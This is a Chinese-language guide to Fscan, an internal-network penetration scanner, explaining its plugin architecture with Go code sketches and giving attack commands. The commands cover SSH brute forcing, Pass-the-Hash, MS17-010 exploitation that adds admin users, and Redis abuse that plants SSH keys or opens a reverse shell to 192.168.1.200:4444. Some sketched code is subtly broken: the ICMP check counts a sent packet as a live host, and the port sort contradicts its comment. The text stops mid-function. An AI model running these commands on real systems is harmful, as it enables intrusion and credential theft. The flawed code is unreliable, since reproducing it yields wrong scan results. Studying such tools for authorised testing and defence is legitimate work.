





# Fscan：内网综合扫描工具深度入门指南

## 简介

Fscan是一款专为内网渗透测试设计的企业级综合扫描工具，由404Team倾力打造并开源。它不仅集成了主机发现、端口扫描、服务识别、漏洞检测、暴力破解等多种安全测试功能，更以其卓越的架构设计和工程实践成为Go语言网络安全工具开发的典型范例。

## 核心架构深度解析

### Fscan整体架构图



### 技术架构分层设计



### 插件系统架构设计



### 整体项目结构

```
fscan/
├── main.go                 # 程序启动入口与流程控制
├── Common/                 # 公共基础设施层
│   ├── Config.go          # 全局配置管理与常量定义
│   ├── Flag.go            # 命令行参数处理与校验
│   ├── Parse.go           # 参数解析与验证引擎
│   ├── Types.go           # 数据结构与接口定义
│   ├── ParseIP.go         # IP地址解析算法
│   ├── ParsePort.go       # 端口解析与范围处理
│   ├── Output.go          # 结果输出与格式化
│   └── i18n.go            # 国际化支持
├── Core/                   # 核心扫描引擎
│   ├── Scanner.go         # 策略模式扫描调度器
│   ├── Registry.go        # 插件注册与管理中心
│   ├── PortScan.go        # 高性能端口扫描引擎
│   ├── PortInfo.go        # 服务指纹识别引擎
│   ├── ServiceScanner.go  # 服务扫描策略实现
│   ├── WebScanner.go      # Web扫描策略实现
│   ├── LocalScanner.go    # 本地信息收集策略
│   └── PluginUtils.go     # 插件工具函数
├── Plugins/               # 扫描插件生态系统
│   ├── SSH.go             # SSH服务扫描与暴破
│   ├── MySQL.go           # MySQL数据库检测
│   ├── MS17010.go         # 永恒之蓝漏洞检测
│   ├── Redis.go           # Redis未授权访问检测
│   ├── WebTitle.go        # Web应用指纹识别
│   └── [40+个专业插件]    # 覆盖主流服务与协议
└── WebScan/               # Web应用安全检测
    ├── WebScan.go         # Web扫描核心引擎
    ├── lib/               # CEL表达式引擎与HTTP库
    │   ├── Check.go       # POC执行与漏洞验证
    │   ├── Client.go      # HTTP客户端封装
    │   └── Eval.go        # 表达式求值引擎
    ├── info/              # 指纹规则库
    └── pocs/              # 334个POC漏洞库
```

## 六大核心设计亮点

### 🎯 设计亮点一：策略模式驱动的扫描架构

Fscan采用经典的**策略模式(Strategy Pattern)**，实现了高度灵活的扫描引擎：

```go
// 扫描策略接口定义
type ScanStrategy interface {
    Name() string
    Description() string
    Execute(info Common.HostInfo, ch *chan struct{}, wg *sync.WaitGroup)
    GetPlugins() ([]string, bool)
    LogPluginInfo()
    PrepareTargets(info Common.HostInfo) []Common.HostInfo
    IsPluginApplicable(plugin Common.ScanPlugin, targetPort int, isCustomMode bool) bool
}

// 策略选择器 - 根据扫描配置自动选择最优策略
func (s *Scanner) selectStrategy(info Common.HostInfo) {
    switch {
    case Common.LocalMode:
        s.strategy = NewLocalScanStrategy()    // 本地信息收集策略
    case len(Common.URLs) > 0:
        s.strategy = NewWebScanStrategy()      // Web应用扫描策略  
    default:
        s.strategy = NewServiceScanStrategy()  // 网络服务扫描策略
    }
}
```

**设计优势分析**：
- **开闭原则**：新增扫描策略无需修改现有代码
- **单一职责**：每种策略专注于特定扫描场景
- **运行时切换**：根据输入参数自动选择最适合的扫描策略
- **代码复用**：通用扫描逻辑抽象为`ExecuteScanTasks`函数

### 🔧 设计亮点二：注册中心式插件管理系统

Fscan实现了类似Spring IoC的**插件注册管理机制**，支持插件的动态注册与依赖注入：

```go
// 插件描述符定义
type ScanPlugin struct {
    Name     string                // 插件名称
    Ports    []int                 // 适用端口列表
    Types    []string              // 插件类型标签(service/web/local)
    ScanFunc func(*HostInfo) error // 扫描函数指针
}

// 全局插件注册中心
var PluginManager = make(map[string]ScanPlugin)

// 插件注册API
func RegisterPlugin(name string, plugin ScanPlugin) {
    PluginManager[name] = plugin
}

// 插件自动注册 - 利用Go的init()机制
func init() {
    // 数据库服务插件
    Common.RegisterPlugin("mysql", Common.ScanPlugin{
        Name:     "MySQL",
        Ports:    []int{3306, 3307, 13306, 33306},
        ScanFunc: Plugins.MysqlScan,
        Types:    []string{Common.PluginTypeService},
    })
    
    // Web应用插件
    Common.RegisterPlugin("webpoc", Common.ScanPlugin{
        Name:     "WebPoc", 
        Ports:    Common.ParsePortsFromString(Common.WebPorts),
        ScanFunc: Plugins.WebPoc,
        Types:    []string{Common.PluginTypeWeb},
    })
    
    // 漏洞利用插件
    Common.RegisterPlugin("ms17010", Common.ScanPlugin{
        Name:     "MS17010",
        Ports:    []int{445},
        ScanFunc: Plugins.MS17010,
        Types:    []string{Common.PluginTypeService},
    })
}
```

**架构优势**：
- **插件生态**：40+个专业插件覆盖主流服务与协议
- **类型系统**：service/web/local三种插件类型自动分类
- **端口适配**：智能匹配插件与目标端口的关联关系
- **热插拔**：支持运行时插件加载与卸载

### ⚡ 设计亮点三：高性能并发扫描引擎

基于**Goroutine池+信号量**的并发控制模型，实现了高性能的扫描引擎：

#### 并发扫描执行流程图



```go
// 增强型端口扫描引擎
func EnhancedPortScan(hosts []string, ports string, timeout int64) []string {
    // 使用errgroup进行并发任务管理
    ctx, cancel := context.WithCancel(context.Background())
    defer cancel()
    
    // 信号量控制并发数量，防止资源耗尽
    sem := semaphore.NewWeighted(int64(Common.ThreadNum))
    var aliveMap sync.Map        // 并发安全的结果存储
    g, ctx := errgroup.WithContext(ctx)

    // 并发扫描所有目标
    for _, host := range hosts {
        for _, port := range portList {
            host, port := host, port // 捕获循环变量
            
            // 获取并发许可
            if err := sem.Acquire(ctx, 1); err != nil {
                break
            }

            g.Go(func() error {
                defer sem.Release(1)  // 释放并发许可
                
                // TCP连接探测
                conn, err := net.DialTimeout("tcp", 
                    fmt.Sprintf("%s:%d", host, port), 
                    time.Duration(timeout)*time.Second)
                if err != nil {
                    return nil
                }
                defer conn.Close()

                // 记录开放端口
                atomic.AddInt64(&count, 1)
                aliveMap.Store(fmt.Sprintf("%s:%d", host, port), struct{}{})
                
                // 服务指纹识别
                if Common.EnableFingerprint {
                    scanner := NewPortInfoScanner(host, port, conn, 
                        time.Duration(timeout)*time.Second)
                    if info, err := scanner.Identify(); err == nil {
                        // 保存服务识别结果...
                    }
                }
                
                return nil
            })
        }
    }
    
    _ = g.Wait() // 等待所有扫描完成
    return collectResults(aliveMap)
}
```

**性能优势**：
- **并发控制**：信号量机制精确控制并发度，避免系统资源耗尽
- **内存优化**：sync.Map提供并发安全的结果存储，无锁化设计
- **错误恢复**：errgroup统一管理Goroutine错误，支持快速失败
- **连接复用**：高效的TCP连接管理，支持连接超时控制

### 🔍 设计亮点四：智能服务指纹识别引擎  

实现了**多层次探测算法**的服务识别引擎，支持精确的服务指纹识别：

#### 服务识别四层探测流程图



```go
// 服务指纹识别器
type PortInfoScanner struct {
    Address string
    Port    int
    Conn    net.Conn
    Timeout time.Duration
    info    *Info
}

// 四层探测算法
func (i *Info) PortInfo() {
    // 第一层：被动响应分析
    if response, err := i.Read(); err == nil && len(response) > 0 {
        if i.tryProbes(response, []*Probe{null, common}) {
            return // 基础探测器匹配成功
        }
    }

    usedProbes := make(map[string]struct{})

    // 第二层：端口专用探测器
    if i.processPortMapProbes(usedProbes) {
        return // 端口专用探测器匹配成功
    }

    // 第三层：默认探测器组合
    if i.processDefaultProbes(usedProbes) {
        return // 默认探测器匹配成功
    }

    // 第四层：兜底策略
    if strings.TrimSpace(i.Result.Service.Name) == "" {
        i.Result.Service.Name = "unknown"
    }
}

// 服务信息结构体
type ServiceInfo struct {
    Name    string            // 服务名称(http、ssh、mysql等)
    Banner  string            // 服务横幅信息
    Version string            // 版本号
    Extras  map[string]string // 厂商、产品、操作系统等扩展信息
}
```

**技术特点**：
- **分层探测**：被动响应 → 端口专用 → 通用探测 → 兜底识别
- **协议适配**：支持40+种网络协议的指纹识别
- **版本识别**：精确提取服务版本、厂商、产品信息
- **Banner抓取**：智能提取和格式化服务横幅信息

### 🌐 设计亮点五：CEL表达式驱动的POC引擎

Web扫描模块采用**CEL(Common Expression Language)**实现动态POC执行：

```go
// POC执行引擎
func CheckMultiPoc(req *http.Request, pocs []*Poc, workers int) {
    // Goroutine池并发执行POC
    tasks := make(chan Task, len(pocs))
    var wg sync.WaitGroup

    // 启动工作协程池
    for i := 0; i < workers; i++ {
        wg.Add(1)
        go func() {
            defer wg.Done()
            for task := range tasks {
                // 执行单个POC检测
                isVulnerable, err, vulName := executePoc(task.Req, task.Poc)
                
                if isVulnerable && vulName != "" {
                    // 构造漏洞详细信息
                    details := createVulnDetails(task.Poc, vulName)
                    
                    // 保存扫描结果
                    result := &Common.ScanResult{
                        Time:    time.Now(),
                        Type:    Common.VULN,
                        Target:  task.Req.URL.String(),
                        Status:  "vulnerable",
                        Details: details,
                    }
                    Common.SaveResult(result)
                    
                    // 输出发现的漏洞
                    Common.LogSuccess(buildLogMessage(&VulnResult{
                        Poc: task.Poc, VulName: vulName, 
                        Target: task.Req.URL.String(),
                    }))
                }
            }
        }()
    }
    
    // 分发POC任务
    for _, poc := range pocs {
        tasks <- Task{Req: req, Poc: poc}
    }
    close(tasks)
    wg.Wait()
}
```

**POC样例(YAML格式)**：
```yaml
name: poc-yaml-spring-boot-actuator-heapdump
rules:
  - method: GET
    path: /actuator/heapdump
    expression: |
      response.status == 200 && 
      response.headers["content-type"].contains("application/octet-stream") &&
      response.body.bcontains(b"HPROF")

detail:
  author: Fscan Team
  severity: high
  description: Spring Boot Actuator heapdump信息泄露
  reference:
    - https://github.com/LandGrey/SpringBootVulExploit
```

**引擎优势**：
- **动态执行**：CEL表达式支持复杂逻辑判断和条件组合
- **零编译**：YAML格式POC，无需重新编译即可添加新漏洞检测
- **并发安全**：工作池模式保证高并发POC执行的稳定性
- **丰富生态**：334个现成POC覆盖主流Web漏洞

### 📊 设计亮点六：统一的结果管理与输出系统

实现了**结构化的扫描结果管理系统**，支持多格式输出与实时展示：

```go
// 统一扫描结果结构
type ScanResult struct {
    Time    time.Time              // 扫描时间戳
    Type    string                 // 结果类型(PORT/SERVICE/VULN/CRED)
    Target  string                 // 目标地址
    Status  string                 // 状态(open/vulnerable/cracked等)
    Details map[string]interface{} // 详细信息(端口、服务版本、漏洞信息等)
}

// 结果类型常量
const (
    PORT    = "PORT"       // 端口开放
    SERVICE = "SERVICE"    // 服务识别  
    VULN    = "VULN"       // 漏洞发现
    CRED    = "CRED"       // 凭据破解
    ALIVE   = "ALIVE"      // 主机存活
)

// 实时进度条系统
func initProgressBar(totalTasks int) {
    Common.ProgressBar = progressbar.NewOptions(totalTasks,
        progressbar.OptionEnableColorCodes(true),
        progressbar.OptionShowCount(),
        progressbar.OptionSetWidth(15),
        progressbar.OptionSetDescription("[cyan]扫描进度:[reset]"),
        progressbar.OptionSetTheme(progressbar.Theme{
            Saucer:        "[green]=[reset]",
            SaucerHead:    "[green]>[reset]",
            SaucerPadding: " ",
            BarStart:      "[",
            BarEnd:        "]",
        }),
    )
}
```

**系统特性**：
- **结构化存储**：统一的ScanResult数据结构便于后续处理
- **多格式输出**：支持JSON、CSV、XML等多种输出格式  
- **实时反馈**：彩色进度条与日志实时显示扫描状态
- **并发安全**：互斥锁保护输出操作，避免输出混乱

## 工程实践亮点

### 内存管理优化
```go
// 使用sync.Map实现并发安全的结果存储
var aliveMap sync.Map

// 原子操作更新计数器
atomic.AddInt64(&Common.Num, 1)
atomic.AddInt64(&Common.End, 1)
```

### 错误处理机制
```go
// 优雅的错误恢复
defer func() {
    if r := recover(); r != nil {
        Common.LogError(fmt.Sprintf("[PANIC] 插件 %s 扫描崩溃: %v", 
            pluginName, r))
    }
    wg.Done()
    <-*ch // 释放并发槽位
}()
```

### 资源管理
```go
// 上下文控制与超时管理
ctx, cancel := context.WithCancel(context.Background())
defer cancel()

// 连接超时控制
conn, err := net.DialTimeout("tcp", addr, timeout)
if err != nil {
    return nil
}
defer conn.Close()
```

## 功能模块深度解析

### 1. 主机发现与端口扫描

#### 智能主机存活检测

Fscan实现了**多协议融合**的主机存活检测机制：

```bash
# ICMP回显检测（传统ping）
fscan -h 192.168.1.0/24

# TCP SYN扫描（绕过ICMP屏蔽）  
fscan -h 192.168.1.0/24 -np

# 混合协议检测（提高检测准确率）
fscan -h 192.168.1.0/24 -ping
```

**技术实现原理**：
```go
// ICMP存活检测实现
func IcmpCheck(host string) bool {
    // 创建ICMP包
    conn, err := icmp.ListenPacket("ip4:icmp", "0.0.0.0")
    if err != nil {
        return false
    }
    defer conn.Close()
    
    // 构造ICMP Echo请求
    message := &icmp.Message{
        Type: ipv4.ICMPTypeEcho,
        Code: 0,
        Body: &icmp.Echo{
            ID:   os.Getpid() & 0xffff,
            Seq:  1,
            Data: []byte("Hello, World"),
        },
    }
    
    // 发送并等待响应
    data, err := message.Marshal(nil)
    if err != nil {
        return false
    }
    
    // 设置超时并发送
    dst, err := net.ResolveIPAddr("ip4", host)
    if err != nil {
        return false
    }
    
    conn.SetDeadline(time.Now().Add(3 * time.Second))
    _, err = conn.WriteTo(data, dst)
    return err == nil
}
```

#### 高性能端口扫描架构

**端口扫描配置策略**：
```bash
# 指定端口列表
fscan -h 192.168.1.1 -p 22,80,443,3389,5432

# 端口范围扫描
fscan -h 192.168.1.1 -p 1-1000

# 排除特定端口
fscan -h 192.168.1.1 -p 1-65535 -ep 135,139,445

# 添加自定义端口
fscan -h 192.168.1.1 -pa 8080,9000,9001
```

**扫描算法优化**：
```go
// 端口扫描优化算法
func OptimizedPortScan(targets []string, ports []int) {
    // 1. 端口排序优化 - 将常见端口前置
    sort.Slice(ports, func(i, j int) bool {
        commonPorts := map[int]int{
            22: 1, 80: 2, 443: 3, 21: 4, 23: 5,
            25: 6, 53: 7, 110: 8, 993: 9, 995: 10,
        }
        return commonPorts[ports[i]] < commonPorts[ports[j]]
    })
    
    // 2. 自适应超时调整
    baseTimeout := time.Second * 3
    for _, target := range targets {
        // 根据网络延迟动态调整超时时间
        rtt := measureNetworkLatency(target)
        timeout := time.Duration(float64(baseTimeout) * (1 + rtt.Seconds()))
        
        for _, port := range ports {
            scanSinglePort(target, port, timeout)
        }
    }
}

// 网络延迟测量
func measureNetworkLatency(host string) time.Duration {
    start := time.Now()
    conn, err := net.DialTimeout("tcp", host+":80", time.Second)
    if err == nil {
        conn.Close()
        return time.Since(start)
    }
    return time.Millisecond * 100 // 默认延迟
}
```

### 2. 服务暴力破解系统

#### 智能字典管理

**基础暴力破解**：
```bash
# SSH服务破解
fscan -h 192.168.1.100 -m ssh

# MySQL数据库破解（自动尝试常见端口）
fscan -h 192.168.1.100 -m mysql

# 自定义认证信息
fscan -h 192.168.1.100 -user admin,administrator,root -pwd 123456,password,admin
```

**高级认证模式**：
```bash
# 域环境SMB认证
fscan -h 192.168.1.100 -m smb -domain CORP.LOCAL -user administrator

# Pass-the-Hash攻击
fscan -h 192.168.1.100 -m smb2 -user admin -hash 32ed87bdb5fdc5e9cba88547376818d4

# SSH密钥认证
fscan -h 192.168.1.100 -m ssh -sshkey /path/to/private_key
```

**破解算法实现**：
```go
// SSH暴力破解实现
func SshScan(info *Common.HostInfo) error {
    // 获取用户名和密码字典
    users := Common.Userdict["ssh"]
    passwords := Common.Passwords
    
    // 并发控制
    semaphore := make(chan struct{}, 5) // 限制并发连接数
    
    for _, user := range users {
        for _, pass := range passwords {
            semaphore <- struct{}{} // 获取信号量
            
            go func(u, p string) {
                defer func() { <-semaphore }() // 释放信号量
                
                // SSH连接尝试
                config := &ssh.ClientConfig{
                    User: u,
                    Auth: []ssh.AuthMethod{
                        ssh.Password(p),
                    },
                    Timeout:         time.Second * 5,
                    HostKeyCallback: ssh.InsecureIgnoreHostKey(),
                }
                
                client, err := ssh.Dial("tcp", 
                    fmt.Sprintf("%s:%s", info.Host, info.Ports), config)
                if err == nil {
                    client.Close()
                    
                    // 记录成功破解的凭据
                    Common.SaveResult(&Common.ScanResult{
                        Time:   time.Now(),
                        Type:   Common.CRED,
                        Target: info.Host,
                        Status: "cracked",
                        Details: map[string]interface{}{
                            "protocol": "ssh",
                            "username": u,
                            "password": p,
                            "port":     info.Ports,
                        },
                    })
                    
                    Common.LogSuccess(fmt.Sprintf(
                        "SSH破解成功 %s:%s [%s:%s]", 
                        info.Host, info.Ports, u, p))
                    return
                }
                
                // 登录失败处理
                Common.LogDebug(fmt.Sprintf(
                    "SSH登录失败 %s:%s [%s:%s] - %v", 
                    info.Host, info.Ports, u, p, err))
            }(user, pass)
        }
    }
    
    return nil
}
```

### 3. 漏洞检测与利用系统

#### MS17-010永恒之蓝检测与利用

**漏洞检测**：
```bash
# 批量检测MS17-010漏洞
fscan -h 192.168.1.0/24 -m ms17010

# 漏洞利用 - 添加管理员用户
fscan -h 192.168.1.100 -m ms17010 -sc add

# 漏洞利用 - 激活Guest账户
fscan -h 192.168.1.100 -m ms17010 -sc guest
```

**技术实现**：
```go
// MS17-010漏洞检测核心逻辑
func MS17010(info *Common.HostInfo) error {
    // 1. 建立SMB连接
    conn, err := net.DialTimeout("tcp", 
        fmt.Sprintf("%s:445", info.Host), 
        time.Duration(Common.Timeout)*time.Second)
    if err != nil {
        return err
    }
    defer conn.Close()
    
    // 2. 发送SMB协商包
    negotiateRequest := buildSMBNegotiatePacket()
    _, err = conn.Write(negotiateRequest)
    if err != nil {
        return err
    }
    
    // 3. 读取SMB响应
    response := make([]byte, 1024)
    n, err := conn.Read(response)
    if err != nil {
        return err
    }
    
    // 4. 分析SMB版本和安全配置
    if isSMBv1Enabled(response[:n]) && !isPatchedForMS17010(response[:n]) {
        // 发现MS17-010漏洞
        Common.SaveResult(&Common.ScanResult{
            Time:   time.Now(),
            Type:   Common.VULN,
            Target: info.Host,
            Status: "vulnerable", 
            Details: map[string]interface{}{
                "vulnerability": "MS17-010",
                "description":   "EternalBlue SMBv1 Remote Code Execution",
                "severity":      "Critical",
                "cvss_score":    "9.3",
                "exploit":       "Available",
            },
        })
        
        Common.LogSuccess(fmt.Sprintf(
            "发现MS17-010漏洞 %s (EternalBlue)", info.Host))
        
        // 5. 可选的漏洞利用
        if Common.Shellcode != "" {
            return exploitMS17010(conn, info)
        }
    }
    
    return nil
}

// SMB漏洞利用实现
func exploitMS17010(conn net.Conn, info *Common.HostInfo) error {
    // 构造EternalBlue exploit payload
    exploitPacket := buildEternalBlueExploit(Common.Shellcode)
    
    // 发送exploit
    _, err := conn.Write(exploitPacket)
    if err != nil {
        return fmt.Errorf("exploit发送失败: %v", err)
    }
    
    // 验证exploit是否成功
    if verifyExploitSuccess(conn) {
        Common.LogSuccess(fmt.Sprintf(
            "MS17-010利用成功 %s", info.Host))
        return nil
    }
    
    return fmt.Errorf("exploit执行失败")
}
```

**其他漏洞检测**：
```bash
# SMBGhost漏洞（CVE-2020-0796）
fscan -h 192.168.1.0/24 -m smbghost

# 综合漏洞扫描
fscan -h 192.168.1.0/24 -m ms17010,smbghost
```

### 4. Web应用安全检测

#### Web服务识别与指纹提取

**Web指纹识别**：
```bash
# Web标题和技术栈识别
fscan -h 192.168.1.0/24 -m webtitle

# 单个URL深度扫描
fscan -u http://192.168.1.100:8080

# POC漏洞批量检测
fscan -u http://192.168.1.100 -m webpoc
```

**Web指纹识别实现**：
```go
// Web应用指纹识别
func WebTitle(info *Common.HostInfo) error {
    // 构造HTTP请求
    url := fmt.Sprintf("http://%s:%s", info.Host, info.Ports)
    if info.Ports == "443" {
        url = fmt.Sprintf("https://%s:%s", info.Host, info.Ports)
    }
    
    // 发送HTTP请求
    client := &http.Client{
        Timeout: time.Duration(Common.WebTimeout) * time.Second,
        Transport: &http.Transport{
            TLSClientConfig: &tls.Config{InsecureSkipVerify: true},
        },
    }
    
    resp, err := client.Get(url)
    if err != nil {
        return err
    }
    defer resp.Body.Close()
    
    // 读取响应内容
    body, err := ioutil.ReadAll(resp.Body)
    if err != nil {
        return err
    }
    
    // 提取Web应用信息
    webInfo := extractWebFingerprint(resp.Header, body)
    
    // 保存Web应用信息
    Common.SaveResult(&Common.ScanResult{
        Time:   time.Now(),
        Type:   Common.SERVICE,
        Target: url,
        Status: "identified",
        Details: map[string]interface{}{
            "title":      webInfo.Title,
            "server":     webInfo.Server,
            "framework":  webInfo.Framework,
            "cms":        webInfo.CMS,
            "language":   webInfo.Language,
            "status_code": resp.StatusCode,
            "content_length": len(body),
        },
    })
    
    // 输出识别结果
    Common.LogInfo(fmt.Sprintf(
        "Web应用 %s [%s] %s %s", 
        url, webInfo.Title, webInfo.Server, webInfo.Framework))
    
    return nil
}

// Web指纹提取函数
func extractWebFingerprint(headers http.Header, body []byte) *WebInfo {
    info := &WebInfo{}
    
    // 提取标题
    if match := regexp.MustCompile(`<title[^>]*>([^<]+)</title>`).FindSubmatch(body); match != nil {
        info.Title = string(match[1])
    }
    
    // 提取服务器信息
    info.Server = headers.Get("Server")
    
    // 提取框架信息
    info.Framework = detectFramework(headers, body)
    
    // 提取CMS信息
    info.CMS = detectCMS(headers, body)
    
    // 提取编程语言
    info.Language = detectLanguage(headers, body)
    
    return info
}
```

#### 高级Web扫描配置

**代理与规避技术**：
```bash
# 指定特定POC
fscan -u http://192.168.1.100 -pocname weblogic,struts2,shiro

# 使用HTTP代理
fscan -u http://192.168.1.100 -proxy http://127.0.0.1:8080

# 使用SOCKS5代理
fscan -u http://192.168.1.100 -socks5 127.0.0.1:1080

# 设置自定义请求头
fscan -u http://192.168.1.100 -cookie "JSESSIONID=123456" -ua "Custom-Agent/1.0"
```

### 5. Redis未授权访问利用

#### Redis安全检测与利用

**Redis未授权检测**：
```bash
# Redis未授权访问检测
fscan -h 192.168.1.100 -m redis

# Redis写入SSH公钥利用
fscan -h 192.168.1.100 -rf id_rsa.pub

# Redis计划任务反弹Shell
fscan -h 192.168.1.100 -rs 192.168.1.200:4444
```

**技术实现**：
```go
// Redis未授权访问检测
func RedisScan(info *Common.HostInfo) error {
    // 建立Redis连接
    conn, err := net.DialTimeout("tcp", 
        fmt.Sprintf("%s:%s", info.Host, info.Ports),
        time.Duration(Common.Timeout)*time.Second)
    if err != nil {
        return err
    }
    defer conn.Close()
    
    // 发送INFO命令
    _, err = conn.Write([]byte("INFO\r\n"))
    if err != nil {
        return err
    }
    
    // 读取响应
    buffer := make([]byte, 4096)
    n, err := conn.Read(buffer)
    if err != nil {
        return err
    }
    
    response := string(buffer[:n])
    
    // 检查是否为Redis服务且未授权
    if strings.Contains(response, "redis_version") {
        // 解析Redis版本信息
        version := extractRedisVersion(response)
        
        Common.SaveResult(&Common.ScanResult{
            Time:   time.Now(),
            Type:   Common.VULN,
            Target: info.Host,
            Status: "vulnerable",
            Details: map[string]interface{}{
                "service":        "redis",
                "version":        version,
                "vulnerability": "Unauthorized Access",
                "risk_level":     "High",
                "port":          info.Ports,
            },
        })
        
        Common.LogSuccess(fmt.Sprintf(
            "Redis未授权访问 %s:%s [%s]", 
            info.Host, info.Ports, version))
        
        // 可选的自动利用
        if Common.RedisFile != "" || Common.RedisShell != "" {
            return exploitRedis(conn, info)
        }
    }
    
    return nil
}

// Redis漏洞自动利用
func exploitRedis(conn net.Conn, info *Common.HostInfo) error {
    if Common.RedisFile != "" {
        // SSH公钥写入利用
        return redisSSHKeyExploit(conn, Common.RedisFile)
    }
    
    if Common.RedisShell != "" {
        // 计划任务反弹Shell利用
        return redisCrontabExploit(conn, Common.RedisShell)
    }
    
    return nil
}
```

## 源码深度解析与架构设计

### 程序启动流程分析

**main.go - 五阶段启动流程**：

```go
func main() {
    // 阶段1: 日志系统初始化
    Common.InitLogger()
    
    // 阶段2: 参数解析与验证  
    var Info Common.HostInfo
    Common.Flag(&Info)
    
    // 阶段3: 配置验证与预处理
    if err := Common.Parse(&Info); err != nil {
        os.Exit(1)
    }
    
    // 阶段4: 输出系统初始化
    if err := Common.InitOutput(); err != nil {
        os.Exit(1) 
    }
    defer Common.CloseOutput()
    
    // 阶段5: 执行扫描任务
    Core.Scan(Info)
}
```

### 并发扫描引擎核心算法

**高性能任务调度器**：
```go
// 并发任务调度器 - 带有错误恢复和资源管理
func scheduleScanTask(pluginName string, target Common.HostInfo, 
                     ch *chan struct{}, wg *sync.WaitGroup) {
    wg.Add(1)
    *ch <- struct{}{}  // 获取并发槽位

    go func() {
        defer func() {
            // 全面的错误恢复机制
            if r := recover(); r != nil {
                Common.LogError(fmt.Sprintf(
                    "[PANIC] 插件 %s 扫描崩溃: %v", pluginName, r))
            }
            wg.Done()
            <-*ch  // 释放并发槽位
        }()

        atomic.AddInt64(&Common.Num, 1)
        executeSingleScan(pluginName, target)
        updateProgress()
    }()
}
```

### 服务指纹识别四层探测算法

**Core/PortInfo.go**：
```go
// 四层探测算法实现
func (i *Info) PortInfo() {
    // 第一层：被动响应分析
    if response, err := i.Read(); err == nil && len(response) > 0 {
        if i.tryProbes(response, []*Probe{null, common}) {
            return
        }
    }

    usedProbes := make(map[string]struct{})

    // 第二层：端口专用探测器
    if i.processPortMapProbes(usedProbes) {
        return
    }

    // 第三层：默认探测器组合
    if i.processDefaultProbes(usedProbes) {
        return
    }

    // 第四层：兜底识别策略
    if strings.TrimSpace(i.Result.Service.Name) == "" {
        i.Result.Service.Name = "unknown"
    }
}
```

## 高级功能与性能优化

### 性能优化策略

```bash
# 内网高速扫描
fscan -h 192.168.1.0/24 -t 1000 -time 3 -np

# 互联网稳定扫描
fscan -h target -t 200 -time 10

# 代理规避
fscan -h target -proxy http://127.0.0.1:8080
```

### 自定义插件开发

```go
func MyServiceScan(info *Common.HostInfo) error {
    conn, err := net.DialTimeout("tcp", 
        fmt.Sprintf("%s:%s", info.Host, info.Ports),
